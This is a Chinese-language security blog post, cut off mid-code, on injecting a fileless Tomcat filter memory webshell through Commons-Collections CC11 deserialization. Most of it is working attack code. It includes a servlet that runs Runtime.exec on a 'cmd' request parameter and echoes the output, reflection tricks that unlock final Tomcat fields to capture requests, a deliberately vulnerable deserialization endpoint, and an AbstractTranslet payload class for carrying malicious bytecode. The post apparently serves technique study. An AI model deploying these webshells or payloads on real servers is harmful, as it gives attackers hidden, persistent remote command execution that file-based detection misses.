## 背景

参考：https://www.yuque.com/tianxiadamutou/zcfd4v/tzcdeb

内存马原本想要的效果应该是无文件落地，顾名思义，木马留在内存当中。而上次写的Filter内存马其实只是不在当前目录中生成木马文件，其实web服务器还是将其进行编译加载实例化的。

用everything就可以找到的。



## 解决问题

看了几篇文章，其中一个方法是利用CC11这条链子来结合反序列化去实现无文件落地内存马注入。

### 首先是回显问题

之前学习CC链都是直接在idea中实现命令回显，现在如果需要结合CC11进行内存马注入并且回显内容的话，还是需要做些改变。首先在Tomcat中利用servlet和jsp内置的request和response可以比较轻松的获取到执行结果。看了几篇相关文章，发现大家都在用kingkk师傅找到的那个利用点，也就是`ApplicationFilterChain`类中的`lastServicedRequest` 和 `lastServicedResponse` 的静态变量。



位于：`org.apache.catalina.core.ApplicationFilterChain`

在 ApplicationFilterChain类的internalDoFilter方法中，第二个try，在分析Filter型内存马的逻辑时有提到过。

这里就有判断，当WRAP_SAME_OBJECT为true时，就会使用set方法，将`request`和`response`传进去。



然后找这两个静态变量的初始化的地方，在这个文件开始有一块静态代码片段，一般静态代码都是优先执行的



然后就是这个`WRAP_SAME_OBJECT`一开始的状态就是false，这个地方在哪里？

`WRAP_SAME_OBJECT`在`ApplicationDispatcher`类中也是一个静态变量。并且关于`WRAP_SAME_OBJECT`的设置还有一层静态代码



`String wrapSameObject`获取的是配置文件中的这个变量，所以如果没有配置文件，那么这个变量就默认是`null`然后就可以进入判断逻辑中

```java
WRAP_SAME_OBJECT = STRICT_SERVLET_COMPLIANCE;
```

而`STRICT_SERVLET_COMPLIANCE`也是在前面定义好的

```java
STRICT_SERVLET_COMPLIANCE = Globals.STRICT_SERVLET_COMPLIANCE;
```

跟进Globals类去查看



所以这里默认为false，到这里就明白了`ApplicationDispatcher.WRAP_SAME_OBJECT`也是默认为false，这里要获取到request和response就需要让这个值为true，这时就可以使用反射来修改它的值。同时将`lastServicedRequest` 和 `lastServicedResponse`初始化。

```java
WRAP_SAME_OBJECT_FIELD.setBoolean(applicationDispatcher, true);
lastServicedRequestField.set(applicationFilterChain,new ThreadLocal());
lastServicedResponseField.set(applicationFilterChain,new ThreadLocal());
```

当然在前面进行反射时需要进行一些其他操作。

在对final修饰的变量进行反射操作时，当然也不是可以直接操作的，看案例

```java
Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
WRAP_SAME_OBJECT_FIELD.setAccessible(true);

//一个必要的设置，修改final修饰的变量需要这么操作
Field f0 = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
f0.setAccessible(true);
f0.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers()& ~Modifier.FINAL);
```

然后就是代码逻辑，直接贴测试代码，对代码进行分析

```java
package com.sf.filterjsp;

import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

@WebServlet("/ccFilter")
@SuppressWarnings("all")
public class CC11Filter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response){
        try{
            Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);

            //一个必要的设置，修改final修饰的变量需要这么操作
            Field f0 = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
            f0.setAccessible(true);
            f0.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers()& ~Modifier.FINAL);
            //需要用到的另外两个final修饰的变量
            Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = applicationFilterChain.getDeclaredField("lastServicedResponse");
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);
            f0.setInt(lastServicedRequestField,lastServicedRequestField.getModifiers()& ~Modifier.FINAL);
            f0.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers()& ~Modifier.FINAL);
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(applicationFilterChain);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(applicationFilterChain);
            //经典三目运算符获取用户输入
            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;
            //先判断三个条件是否都符合
            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(applicationDispatcher) || lastServicedRequest == null || lastServicedResponse == null){
                //初始化两个静态变量并设置WRAP_SAME_OBJECT为true
                //这里几乎是必进的一个逻辑
                WRAP_SAME_OBJECT_FIELD.setBoolean(applicationDispatcher, true);
                lastServicedRequestField.set(applicationFilterChain, new ThreadLocal());
                lastServicedResponseField.set(applicationFilterChain, new ThreadLocal());
            }else if (cmd!=null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                StringBuilder stringBuilder = new StringBuilder("");
                byte[] bytes = new byte[1024];
                int line = 0;
                while ((line = inputStream.read(bytes))!=-1){
                    stringBuilder.append(new String(bytes, 0, line));
                }
                Writer writer = lastServicedResponse.get().getWriter();
                writer.write(stringBuilder.toString());
                writer.flush();
            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
}
```

回显问题解决



下面走一下这个过程

下断点调试，第一次加载：

打开`/ccFilter`，到这个位置，还没加载CC11Filter，所以还是默认的配置，`WRAP_SAME_OBJECT`的值依旧是false



进入自己写的方法，这里可以看到没有将request和response存入，这里三目运算符的判断还是false。



第二次访问：访问`/ccFilter`加参数

已经修改为true，继续执行



进入，调用set方法，将`request`和`response`分别存入`lastServicedRequest`和`lastServicedResponse`中



然后继续向下走，到了调用自己写的Filter方法，这里可以看到



进入看到与第一次访问不一样的地方



继续向下能进入执行命令的逻辑了，将返回内容写入response



### 构建漏洞环境

需要一个可以反序列化的环境，这个环境问题有点阴间，可能也是我对Servlet不熟悉的原因，访问时各种错误。环境源代码来自：天下大木头师傅

```java
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

@WebServlet(name = "CC11", value = "/cc")
public class CCServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        InputStream inputStream = (InputStream) req;
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        try {
            objectInputStream.readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        resp.getWriter().write("Success");
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        InputStream inputStream = req.getInputStream();
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        try {
            objectInputStream.readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        resp.getWriter().write("Success");
    }
}
```

添加`commons-collections`依赖，maven导入

```java
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

这里说下大概坑点，访问时看到状态码是500就是可以用的了，404则需要再次检查

然后是这个地方吧，需要设置一下，确认commons-collections已导入。我觉得我一直存在的问题就是这里。

PS：如果还是不成功，建议重新建一个项目，毕竟新建的环境只需要一个简单的Sever服务端即可。可以解决大部分错误。



### 实现反序列化注入

大概梳理一下

1. 将request和response存入lastServicedRequest和lastServicedResponse，这是上面解决回显的问题
2. 从lastServicedRequest和lastServicedResponse再获取到存入的request和response
3. 获取servletcontext
4. 注册Filter，注入内存马

#### 存入request和response

将request和response存入，参考三梦师傅的代码，可能一些命名格式按照我的习惯，不过逻辑是大差不差的。

```java
package com.sf.filterjsp;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
/**
 * @author threedr3am
 */
public class TomcatInject extends AbstractTranslet {
    static {
        try{
            /*
            * 反序列化后
            * */
            Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
            Field modifiersField = WRAP_SAME_OBJECT_FIELD.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null)) {
                WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
            }

            //初始化 lastServicedRequest
            Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            Field lastServiceRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
            modifiersField = lastServiceRequestField.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(lastServiceRequestField, lastServiceRequestField.getModifiers() & ~Modifier.FINAL);
            lastServiceRequestField.setAccessible(true);
            if (lastServiceRequestField.get(null) == null) {
                lastServiceRequestField.set(null, new ThreadLocal());
            }

            //初始化 lastServicedResponse
            Field lastServicedResponseField = applicationFilterChain.getDeclaredField("lastServicedResponse");
            modifiersField = modifiersField.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers()& ~Modifier.FINAL);
            lastServicedResponseField.setAccessible(true);
            if (lastServicedResponseField.get(null) == null) {
                lastServicedResponseField.set(null, new ThreadLocal());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

继承`AbstractTranslet`是为了携带恶意字节码到服务端去加载并执行。在静态代码块中通过反射进行一些参数的值的获取和初始化的操作

#### 从lastServicedRequest中获取request

继续进行，前面存入了request和response，那现在要取出使用，先取出

获取request的时候，增加了一个判断逻辑，做如下处理，在注释中写的比较清楚了。

也要考虑其他情况，如果是spring框架，那么可以从下面两种方法去获取request。主要还是通过反射去获取。

```java
    //获取ServletContext
    private static ServletContext getServletContext() throws Exception {
        ServletRequest servletRequest = null;
        //拿到request 和 response
        Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
        lastServicedRequestField.setAccessible(true);
        //get(null)，非null的话，使用get方法就可以直接获取url传输过来的值了
        ThreadLocal threadLocal = (ThreadLocal) lastServicedRequestField.get(null);
        //增加一个判断逻辑，不为空则意味着第一次反序列化的准备工作成功
        if (threadLocal != null && threadLocal.get() != null){
            //获取 servletRequest，对比上一个get(null)就可以看到区别
            servletRequest = (ServletRequest) threadLocal.get();
        }
        /*
        * 如果不是通过Request去传输的，我理解的是不通过get或post吧
        * 那么就通过以下两种方式去获取 servletRequest
        * */
        //第一种
        if (servletRequest == null){
            try {
                Class requestContextHolder = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method getRequestAttributesMethod = requestContextHolder.getMethod("getRequestAttributes");
                Object o = getRequestAttributesMethod.invoke(null);
                Class<?> name = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                Method nameMethod = name.getMethod("getRequest");
                servletRequest = (ServletRequest) nameMethod.invoke(o);
            }catch (Throwable t){}
        }
        if (servletRequest != null){
            return servletRequest.getServletContext();
        }
        //第二种
        try {
            Class contextLoader = Class.forName("org.springframework.web.context.ContextLoader");
            Method getCurrentWebApplicationContext = contextLoader.getMethod("getCurrentWebApplicationContext");
            Object o = getCurrentWebApplicationContext.invoke(null);
            Class<?> name = Class.forName("org.springframework.web.context.WebApplicationContext");
            Method nameMethod = name.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) nameMethod.invoke(o);
            return servletContext;
        }catch (Throwable t){}
        return null;
    }
```

##### Spring中获取request的两种方法的逻辑

第一种（参考：https://www.cnblogs.com/thankyouGod/p/6064165.html）

其实第一种方法是实现了这么一个操作

```java
HttpServletRequest request = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest();
```

只是通过反射来实现这行代码

```java
if (servletRequest == null){
    try {
        Class requestContextHolder = Class.forName("org.springframework.web.context.request.RequestContextHolder");
        Method getRequestAttributesMethod = requestContextHolder.getMethod("getRequestAttributes");
        Object o = getRequestAttributesMethod.invoke(null);
        Class<?> name = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
        Method nameMethod = name.getMethod("getRequest");
    	servletRequest = (ServletRequest) nameMethod.invoke(o);
    }catch (Throwable t){}
}
if (servletRequest != null){
    return servletRequest.getServletContext();
}
```

简单描述一下，通过反射分别获取`getRequestAttributes`和`getRequest`这两个方法

需要用反射的方法去调用另一个方法，中间连接是`getRequestAttributesMethod.invoke(null);`

第二种方法跟第一种方法类似，不啰嗦了。

#### 获取servletcontext

```java
static {
        try{
            //调用静态方法getServletContext
            ServletContext servletContext = getServletContext();
            if (servletContext != null){
                Field context = servletContext.getClass().getDeclaredField("context");
                context.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);

                Field stdcontext = applicationContext.getClass().getDeclaredField("context");
                stdcontext.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdcontext.get(applicationContext);

                if (standardContext != null){

                    Field stateField = LifecycleBase.class.getDeclaredField("state");
                    stateField.setAccessible(true);
                    //给standardContext设置一个状态
                    stateField.set(standardContext, LifecycleState.STARTING_PREP);
                    /*
                     * 1. 实现Filter接口
